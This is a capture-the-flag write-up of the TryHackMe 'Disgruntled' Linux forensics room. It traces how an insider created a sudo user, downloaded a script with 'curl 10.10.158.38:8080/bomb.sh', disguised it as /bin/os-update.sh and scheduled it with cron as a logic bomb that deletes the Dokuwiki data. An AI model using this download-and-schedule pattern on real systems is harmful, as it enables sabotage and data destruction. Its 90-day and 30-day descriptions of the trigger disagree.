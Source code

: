 # TryHackMe: Disgruntled Challenge

Room URL: https://tryhackme.com/room/disgruntled



# Intro

Hey, kid! Good, you’re here!

Not sure if you’ve seen the news, but an employee from the IT department of one of our clients (CyberT) got arrested by the police. The guy was running a successful phishing operation as a side gig.

CyberT wants us to check if this person has done anything malicious to any of their assets. Get set up, grab a cup of coffee, and meet me in the conference room.

**Linux Forensics Cheat sheet** -> https://blog.michweb.de/wp-content/uploads/2024/03/Linux-Forensics-Cheatsheet.pdf


# Nothing Suspicious...So Far

Here’s the machine our disgruntled IT user last worked on. Check if there’s anything our client needs to be worried about.

My advice: Look at the privileged commands that were run. That should get you started.

### Q1. The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND?

- all sudo commands will be logged in this log `/var/log/auth.log*`, 
```bash
cat /var/log/auth.log* |grep -i COMMAND
```
![Screenshot 2025-06-03 112417](https://github.com/user-attachments/assets/95970199-059d-4f61-93f4-96ded5796d3d)

Ans: ***/usr/bin/apt install dokuwiki***

### Q2. What was the present working directory (PWD) when the previous command was run?


Ans: ***/home/cybert***

---
# Let’s see if you did anything bad

Keep going. Our disgruntled IT was supposed to only install a service on this computer, so look for commands that are unrelated to that.


### Q1.Which user was created after the package from the previous task was installed?

- At 06:26, he created a user called it-admin

![Screenshot 2025-06-03 113723](https://github.com/user-attachments/assets/258e012d-8266-43a1-adba-258a9eeccda8)


Ans: ***it-admin***


### Q2. A user was then later given sudo priveleges. When was the sudoers file updated? (Format: Month Day HH:MM:SS)

- This file, `/etc/sudoers`, controls who can use `sudo` and what commands they are allowed to run with root privileges
- `visudo` is a command-line utility that you can use to safely edit `/etc/sudoers` file

![Screenshot 2025-06-03 114420](https://github.com/user-attachments/assets/71643adf-fd44-4255-8ed0-b81dc6da8d9e)

- so, in Dec 28 06:27:34, the sudoers file was edited 

Ans: ***Dec 28 06:27:34***



### Q3. A script file was opened using the "vi" text editor. What is the name of this file?

- at 06:29:14, a bomb.sh file was opened using the vi text editor

![Screenshot 2025-06-03 115035](https://github.com/user-attachments/assets/3db2c21b-8c8f-41ef-b46d-9199ffca36b2)


Ans: ***bomb.sh***


---
# Bomb has been planted. But when and where?

That bomb.sh file is a huge red flag! While a file is already incriminating in itself, we still need to find out where it came from and what it contains. The problem is that the file does not exist anymore.

### Q1.What is the command used that created the file bomb.sh?

- The `.bash_history` file is a hidden file in your home directory that stores a record of commands you’ve run in the Bash shell.
- The `bomb.sh` file was opened from the it-admin user, let's search for the non-sudo commands typed by this user in the `.bash_history ` 
```bash
 cat /home/it-admin/.bash_history
```
![Screenshot 2025-06-03 115739](https://github.com/user-attachments/assets/3b9b2d1a-adef-4e3d-9a0e-f5bac5364880)


Ans: ***curl 10.10.158.38:8080/bomb.sh --output bomb.sh***


### Q2. The file was renamed and moved to a different directory. What is the full path of this file now?

- In the `.bash_history`, we saw that he uses the vi editor to edit the bomb.sh file
- Let's view the `.viminfo` file to view the editing history of the it-admin user.
```bash
cat /home/it-admin/.viminfo
```
![Screenshot 2025-06-03 120527](https://github.com/user-attachments/assets/e3f0726b-00aa-4280-b413-c0ee820eda3e)


Ans: ***/bin/os-update.sh***

### Q3. When was the file from the previous question last modified? (Format: Month Day HH:MM)

```bash
 ls -al --full-time /bin/os-update.sh
```
![Screenshot 2025-06-03 121423](https://github.com/user-attachments/assets/c176cea8-6318-4fc9-9c3a-920f9c23fea3)


Ans: ***Dec 28 06:29***


### Q4. What is the name of the file that will get created when the file from the first question executes?
```bash
nano /bin/os-update.sh
```
![Screenshot 2025-06-03 121838](https://github.com/user-attachments/assets/bdc6b811-28f3-4289-9281-fc063801ca1a)

- The fourth line tries to get the most recent login of the user `it-admin` that occurred within the last 90 days and pipe the result to grep the first line of the output (the most recent match). At last, save the result in the OUTPUT variable 
- `[ -z "$OUTPUT" ]` → Checks if the output is empty, meaning the user it-admin has not logged in during the past 90 days
- If true, deletes the entire Dokuwiki data directory, including possibly all wiki content and configuration, and echoes the message into the goodbye.txt file


Ans: ***goodbye.txt***



---
# Following the fuse

So we have a file and a motive. The question we now have is: how will this file be executed?

Surely, he wants it to execute at some point?

### Q1. At what time will the malicious file trigger? (Format: HH:MM AM/PM)
```bash
cat /etc/crontab
```
![Screenshot 2025-06-03 125446](https://github.com/user-attachments/assets/92cae1e5-9552-4a21-9367-c9a5046886b1)


Ans: ***08:00 AM***


---
# Conclusion
Thanks to you, we now have a good idea of what our disgruntled IT person was planning.

We know that he had downloaded a previously prepared script into the machine, which will delete all the files of the installed service if the user has not logged in to this machine in the last 30 days. It’s a textbook example of a  “logic bomb”, that’s for sure.
